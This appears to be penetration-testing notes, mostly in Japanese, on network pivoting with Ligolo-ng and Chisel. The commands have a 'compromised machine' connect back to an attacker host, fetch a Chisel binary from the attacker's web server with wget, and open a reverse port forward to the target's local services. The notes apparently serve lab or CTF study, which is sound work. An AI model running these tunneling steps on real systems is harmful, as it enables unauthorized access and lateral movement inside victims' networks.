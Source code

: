 ## Ligolo-ng
#Creating interface and starting it.
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

#Kali machine - Attacker machine
./proxy -laddr <LHOST>:9001 -selfcert

#windows or linux machine - compromised machine
./agent -connect <LHOST>:9001 -ignore-cert

#In Ligolo-ng console
session #select host
ifconfig #Notedown the internal network's subnet
start #after adding relevent subnet to ligolo interface

#Adding subnet to ligolo interface - Kali linux
sudo ip r add <subnet> dev ligolo

## Chisel
1 chiselクライアントの準備
Attacker Machine(Kali)
 ターゲットのOSに合うchiselのクライアントをgithubからダウンロード
https://github.com/jpillora/chisel/releases/tag/v1.8.1

 ウェブサーバの起動
 違うターミナルを開いてchiselサーバの起動
chisel server -p 8050 --reverse
 ターゲットマシン(Ubuntu)
 chiselクライアントのダウンロード
 解凍
 chiselクライアントの実行
./chisel client

### Local Port Fowerding


Target Machineのローカルで動いているサービス（1270.0.1:9000やDockerなど）にアクセスしたいときに使用

#### Attacker Machine(Kali)
1 chiselクライアントの準備

 ターゲットのOSに合うchiselのクライアントをgithubからダウンロード
https://github.com/jpillora/chisel/releases/tag/v1.8.1


https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_windows_amd64.gz

ファイル名の変更
Linux用：mv chisel_1.8.1_linux_amd64.gz chisel
Windows用：mv chisel_1.8.1_windows_amd64.gz chisel

 2 ウェブサーバの起動
python3 -m http.server

 3 違うターミナルを開いてchiselサーバの起動
chisel server -p 8050 --reverse
![image](https://github.com/user-attachments/assets/26e564ff-25de-46de-9946-62e81fbf671d)


#### ターゲットマシン(Ubuntu)
1 chiselクライアントのダウンロード
wget http://10.10.14.120:8000/chisel

2 解凍
gzip -d chisel

3 権限の付与
chmod +x chisel

4 chiselクライアントの実行
./chisel client 10.10.14.120:8050 R:9000:127.0.0.1:9000
![image](https://github.com/user-attachments/assets/c6439bc4-eb14-48c6-9572-3dae508a2858)


#### Attacker Machine(Kali)
①攻撃マシンのブラウザ上で127.0.0.1:9000にアクセスすると、
ターゲットの127.0.0.1:9000にアクセスできる

